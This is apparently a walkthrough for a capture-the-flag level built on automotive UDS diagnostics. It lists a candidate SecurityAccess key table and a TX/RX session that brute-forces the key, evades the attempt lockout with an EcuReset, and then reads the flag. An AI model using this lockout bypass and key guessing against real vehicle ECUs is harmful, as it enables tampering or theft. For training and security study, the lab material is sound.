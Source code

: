 ## Level 5
This level requires the user to unlock Security Access using seed 0x01 before the DiagnosticSession can be started, and 
the flag can be retrieved using ReadDataByIdentifier. The previous SecurityAccess level used a hardcoded key, this level
picks a random key from the following list:
```go
			{0x1, 0x1, 0x0, 0x0},
			{0x0, 0x0, 0x1, 0x1},
			{0x0, 0x1, 0x1, 0x0},
			{0x1, 0x0, 0x0, 0x1},
			{0x1, 0x0, 0x1, 0x0},
			{0x1, 0x1, 0x2, 0x2},
			{0x2, 0x1, 0x2, 0x1},
			{0x2, 0x3, 0x2, 0x3},
```

After 3 bad attempts the server will lock, preventing further guesses. The user can get around the lock by requesting
an EcuReset (0x11) and continue guessing until they receive a positive response. Unlock again allows the user to access
DiagnosticSession 0x02 and ReadDataIdentifier the flag 0x1337.

Example session
```shell
# read data by identifier 0xf190 (VIN)
TX: 22 f190
# read data by identifier - Positive Response
RX: 62 f190415452454449533133337

# read data by identifier 0x1337 (Flag)
TX: 22 1337
# read data by identifier - Negative Response - Conditions Not Correct
RX: 7f 2222

# securityAccess seed request (0x01)
TX: 27 01
# securityAccess seed request - Positive Response - 014141414141
RX: 67 014141414141

#Security Access Auth attempt with 0x01 0x01 0x00 0x00 - Invalid Key Response
TX: 27 0201010000
RX: 7f 2735

#Security Access Auth attempt with 0x01 0x01 0x00 0x00 - Invalid Key Response
TX: 27 0201010000
RX: 7f 2735

#Security Access Auth attempt with 0x01 0x01 0x00 0x00 - Invalid Key Response
TX: 27 0201010000
RX: 7f 2735

#Security Access Auth attempt with 0x01 0x01 0x00 0x00 - exceededNumberOfAttempts Response
TX: 27 0201010000
RX: 7f 2736

#Security Access Auth attempt with 0x01 0x01 0x00 0x00 - exceededNumberOfAttempts Response
TX: 27 0201010000
RX: 7f 2736

#ECUReset Request - Positive response
TX: 11 01
RX: 51 01

#Request SecurityAccess Seed (0x01)
TX: 27 01
# securityAccess seed request - Positive Response - 014141414141
RX: 67 014141414141

#Security Access Auth attempt with 0x01 0x01 0x00 0x00 - Invalid Key Response
TX: 27 0201010000
RX: 7f 2735

#Security Access Auth attempt with 0x01 0x01 0x00 0x00 - Positive Response
TX: 27 0201010000
RX: 67 02

#Diagnostic Session 0x02 start - Positive Response
TX: 10 02
RX: 50 02

#Successful Flag Read
TX: 22 1337
RX: 62 13376469642d796f752d7475726e2d69742d6f6e2d616e642d6f66662d616761696e
```